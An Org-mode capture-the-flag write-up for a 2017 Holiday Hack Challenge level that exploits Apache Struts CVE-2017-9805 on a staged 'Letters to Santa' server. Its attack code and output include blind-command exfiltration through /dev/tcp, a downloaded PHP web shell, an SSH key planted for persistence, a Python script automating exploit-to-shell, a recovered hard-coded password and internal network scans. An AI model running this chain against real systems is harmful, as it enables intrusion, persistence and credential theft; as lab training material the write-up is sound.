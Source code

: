 ** Question
   :PROPERTIES:
   :CUSTOM_ID: question
   :END:

Investigate the Letters to Santa application at
https://l2s.northpolechristmastown.com. What is the topic of The
Great Book page available in the web root of the server? What is
Alabaster Snowball's password?

** Background Information
   :PROPERTIES:
   :CUSTOM_ID: background-information
   :END:

We know that there is an application on =https://l2s.northpolechristmastown.com= that we need to investigate.
This webpage is publically accessible from the Internet and not appear to require any special measures to
access it. We do not know Alabaster password or username at the start of this challenge nor what type of
web service is running on the host.

The following hints were provided by Sparkle Redberry from completing the level
[[https://2017.holidayhackchallenge.com/game/3e813a9c-cb34-492e-a317-0dd99c8ca2e7][Winconceivable: The Cliffs of Winsanity]]:
  1. We're excited to debut the new Letters to Santa site this year. Alabaster worked hard on that project for over a year. I got to work with the development version of the site early on in the project lifecycle.
  2. Near the end of the development we had to rush a few things to get the new site moved to production. Some development content on the letter page should probably have been removed, but ended up marked as hidden to avoid added change control paperwork.
  3. Alabaster's primary backend experience is with Apache Struts. I love Apache and have a local instance set up on my home computer with a web shell. Web shells are great as a backdoor for me to access my system remotely. I just choose a really long complex file name so that no one else knows how to access it.
  4. A simple web shell is to create a PHP file in the web root with ~<?php echo "<pre>" . shell_exec($_GET['e']) . "</pre>"; ?>~. Then, I visit the URL with my commands. For example, =http://server/complexFileName.php?e=ls=.
  5. There are lots of different web shell tools available. [[https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985][You can get a simple PHP web shell that is easy to use here]].
  6. That business with Equal-Facts Inc was really unfortunate. I understand there are a lot of different exploits available for those vulnerable systems. Fortunately, Alabaster said he tested for CVE-2017-5638 and it was NOT vulnerable. Hope he checked the others too.
  7. Apache Struts uses XML. I always had problems making proper XML formatting because of special characters. I either had to encode my data or escape the characters properly so the XML wouldn't break. I actually just checked and there are lots of different exploits out there for vulnerable systems. [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Here is a useful article]].
  8. Pro developer tip: Sometimes developers hard code credentials into their development files. Never do this, or at least make sure you take them out before publishing them or putting them into production. You also should avoid reusing credentials for different services, even on the same system.

The following SANS Pentest Blog posts were also very helpful for this challenge:
- [[https://pen-testing.sans.org/blog/2017/12/05/why-you-need-the-skills-to-tinker-with-publicly-released-exploit-code][Why You Need the Skills to Tinker with Publicly Released Exploit Code]]
  Mentions Apache struts vulnerabilities, specifically CVE-2017-5638 and CVE-2017-9805 Code: [[https://github.com/chrisjd20/cve-2017-9805.py]]
- [[https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee Restricted][A Spot of Tee]]
  bash shell, and bypassing the I/O restriction with tee

** Goal
   :PROPERTIES:
   :CUSTOM_ID: goal
   :END:

There are two goals for this challenge. The first is to determine the topic of
the Great Book Page that is sitting on the web root of this server. The second
is to determine what Alabaster's password is.

** Approach
   :PROPERTIES:
   :CUSTOM_ID: approach
   :END:

According to the second hint there might be development code left in the production code.
If we look at the source of =l2s= the following code pops out.

#+BEGIN_SRC html
    <!-- Development version -->
    <a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>
#+END_SRC

Let's do some recon on the hosts:

#+BEGIN_SRC sh
nmap -sC l2s.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for l2s.northpolechristmastown.com (35.185.84.51)
Host is up (0.027s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://l2s.northpolechristmastown.com/
443/tcp  open   https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
#+END_SRC

In addition to the hidden link for dev.northpolechristmastown.com, it is also
present as an alternate name on the certificate of the host. Let's let nmap's
scripts scan that as well.

#+BEGIN_SRC sh
nmap -sC dev.northpolechristmastown.com

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-03 15:36 CST
Nmap scan report for dev.northpolechristmastown.com (35.185.84.51)
Host is up (0.028s latency).
rDNS record for 35.185.84.51: 51.84.185.35.bc.googleusercontent.com
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open   http
|_http-title: Did not follow redirect to https://dev.northpolechristmastown.com/
443/tcp  open   https
| http-title: Toys List
|_Requested resource was /orders.xhtml
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
3389/tcp closed ms-wbt-server
#+END_SRC

We can see that dev and l2s are one in the same. Visiting the dev page has a footer
that simply states =Powered By: Apache Struts=. Let's use this to our advantage.
Let's use the tool provided through the SANS Pentest blog,
[[https://github.com/chrisjd20/cve-2017-9805.py][cve-2017-9805.py]]. The dev page
we land on is [[https://dev.northpolechristmastown.com/orders.xhtml]] so we'll use
that to start from.

#+BEGIN_SRC sh
python cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c 'ls'
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
#+END_SRC

Looks like we need to modify the program to let us see what it's
doing by uncommenting the following line:

#+BEGIN_SRC sh
print request.text
#+END_SRC

Performing the same simple command above results in a lengthy Apache Tomcat
error with no apparent output from our =ls= command. We're dealing with a
blind injection so we'll need to figure out a different way to get the output
of the command. One trick we can pull is redirecting output to a special
pseudo device, =/dev/tcp/$host/$port=. First we'll need to set up a listener
on our end first.

#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
#+END_SRC

Now we run the exploit again:

#+BEGIN_SRC sh
./cve-2017-9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "ls > /dev/tcp/1.2.3.4/1234"
#+END_SRC

The result on our end is:
#+BEGIN_SRC sh
holiday@hack:~$ nc -l -p 8888
bin
boot
dev
etc
home
...
vmlinuz
vmlinuz.old
#+END_SRC

It looks like we've been dropped into the root directory. Let's look for
where the web root is. Normally, the default is /var/www/html on most
linux+apache based hosts. We'll try again with the command =ls -al /var/ww/html=.

#+BEGIN_SRC sh
total 1772
drwxrwxrwt 6 www-data           www-data              4096 Jan  6 03:00 .
drwxr-xr-x 3 root               root                  4096 Oct 12 14:35 ..
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:03 css
drwxr-xr-x 3 root               www-data              4096 Oct 12 19:40 fonts
-r--r--r-- 1 root               www-data           1764298 Dec  4 20:25 GreatBookPage2.pdf
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:14 imgs
-rw-r--r-- 1 root               www-data             14501 Nov 24 20:53 index.html
drwxr-xr-x 2 root               www-data              4096 Oct 12 19:11 js
-rwx------ 1 www-data           www-data               231 Oct 12 21:25 process.php
#+END_SRC

Oh look. There's [[https://l2s.northpolechristmastown.com/GreatBookPage2.pdf][GreatBookPage2.pdf]]. We can download it and find the answer to the first question. Now on to the second.

It looks like we found our web root. Let's try out the
web shell they suggest in the hints from Josh Wright
[[https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php][easy-simple-php-webshell.php]].
We'll output it to a random file in the web root then
we can try to use it to execute commands using a browser.

#+BEGIN_SRC sh
./cve-2017-9805.py -c "wget -O /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/be4b2c021b284f21418f55b9d4496cdd3b3c86d8/easy-simple-php-webshell.php" -u https://dev.northpolechristmastown.com/orders.xhtml
#+END_SRC

Now we can access [[https://l2s.northpolechristmastown.com/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php]] and look around. If we do an =ls= in this webshell, it just returns the local directory, =/var/www/html=. Nothing in here suggests that we have the webroot for the dev server, [[https://dev.northpolechristmastown.com]].

Let's run =find= to see if we can find the password in our webshell.

#+BEGIN_SRC sh
find / -xdev -type f -user alabaster_snowball 2>/dev/null |xargs grep password
#+END_SRC

Within the page full of results we see this:

#+BEGIN_SRC sh
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String password = "stream_unhappy_buy_loss";
#+END_SRC

A closer look at =OrderMySql.class= using =cat /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class= we find:

#+BEGIN_SRC sh
            final String username = "alabaster_snowball";
            final String password = "stream_unhappy_buy_loss";
#+END_SRC


** Solution
   :PROPERTIES:
   :CUSTOM_ID: solution
   :END:

*** What is the topic of The Great Book page available in the web root of the server?

On the Topic of Flying Animals

*** What is Alabaster Snowball’s password?

=stream_unhappy_buy_loss=

** Alternatives
   :PROPERTIES:
   :CUSTOM_ID: alternatives
   :END:

*** Add an authorized_key

One thing you can do if you don't have the password yet is actually add an ssh key to alabaster's authorized keys file. This is problematic since you need to know that the username is actually =alabaster_snowball= first. Assuming you do, you can run the following command to add your key to the file.

#+BEGIN_SRC sh
./cve_2017_9805.py -u https://dev.northpolechristmastown.com/orders.xhtml -c "echo ssh-rsa VGhpcyBpcyBub3QgcmVhbGx5IGFuIFJTQSBrZXksIGJ1dCBoZXksIHdobyByZWFsbHkgbG9va3MgYXQgYmFzZTY0IGFueXdheQo= holiday@hack | tee -a /home/alabaster_snowball/.ssh/authorized_keys"
#+END_SRC

Then you can ssh using your private key identity file.

#+BEGIN_SRC sh
holiday@hack:~$ ssh -i /home/holiday/.ssh/sans_2017 alabaster_snowball@l2s.northpolechristmastown.com
alabaster_snowball@l2s:/tmp/asnow.xq1pCkwT7LUy3iLl0AaBCc7D$ grep -A1 -R / -e alabaster_snowball
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

Once in you are in a restricted shell but you can try to grep for alabaster's password but a regular grep against the entire system will take about 1 minute then you have to parse through the results.

*** Automate the webshell

We can automate dropping a webshell and creating a mini shell to query it. Assuming we have [[https://github.com/chrisjd20/cve-2017-9805.py]] in the same directory we can create a script to automate expoloitation and give us a prompt to execute commands.

#+BEGIN_SRC sh
#!/usr/bin/env python
from __future__ import print_function

import base64
import requests
import sys

from cve_2017_9805 import main as struts_exploit

VULNERABLE_ENDPOINT = "https://dev.northpolechristmastown.com/orders.xhtml"
BASE_URL = "https://l2s.northpolechristmastown.com/"
WEBSHELL = "4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.php"
WEBSHELL_PAYLOAD = b'<?php system($_GET[cmd]); ?>\n'
WEBSHELL_PAYLOAD_ENCODED = base64.encodestring(WEBSHELL_PAYLOAD).strip()

## Emulate this command:
## /cve-2017-9805.py -c 'echo PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo= | base64 -d > /var/www/html/4beadb1e-5ddb-4636-98a4-c2dac0f79ab0.php' -u https://dev.northpolechristmastown.com/orders.xhtml
EXPLOIT_COMMAND = "echo {} | base64 -d > /var/www/html/{}".format(WEBSHELL_PAYLOAD_ENCODED, WEBSHELL)

def run_command(command):
    url = BASE_URL + WEBSHELL
    request = requests.get(url, params={"cmd":command})
    if request.status_code == 404:
        return None
    return request.text

#Main function
def setup():
    # See if we can run the id command, and if so, we are good to go...
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The webshell did not exist, re-exploiting.....\n")
    struts_exploit(VULNERABLE_ENDPOINT, EXPLOIT_COMMAND)
    out = run_command('id')
    if out and 'uid=' in out:
        return True
    sys.stderr.write("The struts exploit/webshell failed :-(\n")
    sys.exit(1)

def interactive():
    setup()
    while True:
        try:
            cmd = raw_input("www-data@l2s:$ ")
        except EOFError:
            print()
            return
        print(run_command(cmd))

def one_shot(command):
    setup()
    print(run_command(command))

if __name__ == "__main__":
    if sys.argv[1:]:
        one_shot(' '.join(sys.argv[1:]))
    else:
        interactive()
#+END_SRC

First we need to either rename =cve-2017-9805.py= to =cve_2017_9805.py= or create a symlink so it can be properly imported into our script. Then we can easily execute commands on l2s.

#+BEGIN_SRC sh
holiday@hack:~$ ./l2s.py id
The webshell did not exist, re-exploiting.....
[+] Encoding Command
[+] Building XML object
[+] Placing command in XML object
[+] Converting Back to String
[+] Making Post Request with our payload
[+] Payload executed
uid=33(www-data) gid=33(www-data) groups=33(www-data)

holiday@hack:~$ ./l2s.py uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux

holiday@hack:~$ ./l2s.py
www-data@l2s:$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@l2s:$ uname -a
Linux hhc17-apache-struts1 4.9.0-5-amd64 #1 SMP Debian 4.9.65-3+deb9u2 (2018-01-04) x86_64 GNU/Linux
#+END_SRC

*** Search even faster with ripgrep

Ripgrep is a super fast grep replacement written in rust. It does a better job at filtering binary files, so we can run this command that finishes in about a second:

The following steps create a folder for ripgrep and executes the search.

#+BEGIN_SRC sh
www-data@l2s:$ mkdir /tmp/.rg
www-data@l2s:$ wget -q -O - https://github.com/BurntSushi/ripgrep/releases/download/0.7.1/ripgrep-0.7.1-x86_64-unknown-linux-musl.tar.gz | tar xzf - -C /tmp/.rg/
www-data@l2s:$ find / -type f -xdev -user alabaster_snowball 2>/dev/null | xargs /tmp/.rg/ripgrep-0.7.1-x86_64-unknown-linux-musl/rg alabaster -A 1
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:            final String username = "alabaster_snowball";
/opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-            final String password = "stream_unhappy_buy_loss";
#+END_SRC

** Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: common-pitfalls
   :END:

A common pitfall is the blind injection aspect of the Apache Struts exploit.

** About the Challenge
   :PROPERTIES:
   :CUSTOM_ID: about-the-challenge
   :END:

Initially the host has a couple of noticeable holes.

  * Apache server running as alabaster (eventually changed to www-data user)
  * Easy bypass of rbash by adding the '-t' flag and executing bash on ssh login (eventually rbash was forced through sshd_config)

The server itself housed two virtual web hosts, the Letter's to Santa application which ran PHP in nginx and the Development site which was run by apache struts on a high port being redirected by nginx.

** Moving Foward

Now that we have a script to automate access to l2s let's run nmap to scan the internal network.

#+BEGIN_SRC sh
holiday@hack:~$ ./l2s.py "nmap -sC 10.142.0.*"

Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-09 20:51 UTC
Nmap scan report for hhc17-l2s-proxy.c.holidayhack2017.internal (10.142.0.2)
Host is up (0.00018s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Did not follow redirect to https://hhc17-l2s-proxy.c.holidayhack2017.internal/
443/tcp  open  https
|_http-title: Toys List
| ssl-cert: Subject: commonName=dev.northpolechristmastown.com
| Subject Alternative Name: DNS:dev.northpolechristmastown.com, DNS:l2s.northpolechristmastown.com
| Not valid before: 2017-11-29T12:54:54
|_Not valid after:  2018-02-27T12:54:54
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
2222/tcp open  EtherNetIP-1

Nmap scan report for hhc17-apache-struts1.c.holidayhack2017.internal (10.142.0.3)
Host is up (0.00017s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp open  http
|_http-title: Toys List

Nmap scan report for mail.northpolechristmastown.com (10.142.0.5)
Host is up (0.00018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 a2:c4:67:fe:a2:d9:df:47:02:55:35:1a:f4:1b:b6:02 (RSA)
|_  256 9e:d4:01:d1:71:be:95:90:68:6e:ee:87:28:42:49:8e (ECDSA)
25/tcp   open  smtp
|_smtp-commands: mail.northpolechristmastown.com, PIPELINING, SIZE 10240000, ETRN, AUTH PLAIN LOGIN, AUTH=PLAIN LOGIN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp   open  http
| http-robots.txt: 1 disallowed entry
|_/cookie.txt
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
143/tcp  open  imap
|_imap-capabilities: more AUTH=PLAIN capabilities have OK Pre-login AUTH=LOGINA0001 ENABLE listed SASL-IR IDLE post-login LITERAL+ IMAP4rev1 LOGIN-REFERRALS ID
2525/tcp open  ms-v-worlds
3000/tcp open  ppp

Nmap scan report for edb.northpolechristmastown.com (10.142.0.6)
Host is up (0.00014s latency).
Not shown: 996 closed ports
PORT     STATE    SERVICE
22/tcp   open     ssh
| ssh-hostkey:
|   2048 73:de:22:15:7b:53:13:85:a7:a5:8f:10:3a:5d:3b:3f (RSA)
|_  256 f5:d7:f3:5d:dc:7c:73:10:cc:f7:a4:c7:f0:d9:61:0c (ECDSA)
80/tcp   open     http
| http-robots.txt: 1 disallowed entry
|_/dev
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was http://edb.northpolechristmastown.com/index.html
389/tcp  filtered ldap
8080/tcp open     http-proxy
| http-robots.txt: 1 disallowed entry
|_/dev
|_http-title: Did not follow redirect to http://edb.northpolechristmastown.com/index.html

Nmap scan report for hhc17-emi.c.holidayhack2017.internal (10.142.0.8)
Host is up (0.00021s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-smb-server
| Not valid before: 2017-11-06T13:46:55
|_Not valid after:  2018-05-08T13:46:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Host script results:
|_nbstat: NetBIOS name: HHC17-SMB-SERVE, NetBIOS user: <unknown>, NetBIOS MAC: 42:01:0a:8e:00:08 (unknown)
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol

Nmap scan report for hhc17-apache-struts2.c.holidayhack2017.internal (10.142.0.11)
Host is up (0.00021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey:
|   2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA)
|_  256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA)
80/tcp   open  http
|_http-title: Toys List
4444/tcp open  krb524

Nmap scan report for eaas.northpolechristmastown.com (10.142.0.13)
Host is up (0.00078s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Index - North Pole Engineering Presents: EaaS!
3389/tcp open  ms-wbt-server
| ssl-cert: Subject: commonName=hhc17-elf-manufacturing
| Not valid before: 2017-11-23T20:53:55
|_Not valid after:  2018-05-25T20:53:55
|_ssl-date: 2018-01-09T20:51:47+00:00; 0s from scanner time.

Post-scan script results:
| clock-skew:
|   0s:
|     10.142.0.13 (eaas.northpolechristmastown.com)
|_    10.142.0.8 (hhc17-emi.c.holidayhack2017.internal)
| ssh-hostkey: Possible duplicate hosts
| Key 256 dc:0b:52:ab:43:87:59:7b:04:88:2d:5c:db:92:4f:ba (ECDSA) used by:
|   10.142.0.2
|   10.142.0.3
|   10.142.0.11
| Key 2048 81:aa:b0:de:e0:4a:b5:23:7e:e8:cd:14:f3:fa:e2:f3 (RSA) used by:
|   10.142.0.2
|   10.142.0.3
|_  10.142.0.11
Nmap done: 256 IP addresses (7 hosts up) scanned in 14.86 seconds
#+END_SRC
